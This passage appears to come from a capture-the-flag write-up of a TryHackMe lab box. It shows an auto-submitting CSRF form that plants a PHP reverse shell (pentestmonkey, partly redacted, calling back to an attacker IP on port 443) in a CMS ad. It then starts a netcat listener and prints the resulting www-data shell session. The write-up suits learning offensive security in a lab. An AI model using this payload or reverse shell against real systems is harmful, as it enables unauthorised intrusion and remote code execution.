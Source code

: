 We have to name the ad as `shell` and then paste the following payload.

```bash
<html>
<body onload="document.exploit.submit();">
<form action="http://10.10.44.218/content/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="shell"/>
<textarea type="hidden" name="adv">
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.14.99.119';
$port = 443;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

<REDACTED>

&lt;/textarea&gt;
</form>
</body>
</html>
```

![Desktop View](LazyAdminReverseShell.png)

The redacted section is just the [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) reverse shell, once saved we can just set a listener at port 443.

```bash
❯ nc -nvlp 443
listening on [any] 443 ...
```

Then access the next path: `http://10.10.44.218/content/inc/ads/shell.php` and we should have received the reverse shell.

```bash
❯ nc -nvlp 443
listening on [any] 443 ...
connect to [10.14.99.119] from (UNKNOWN) [10.10.44.218] 35702
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 01:39:44 up  1:02,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ 
```

---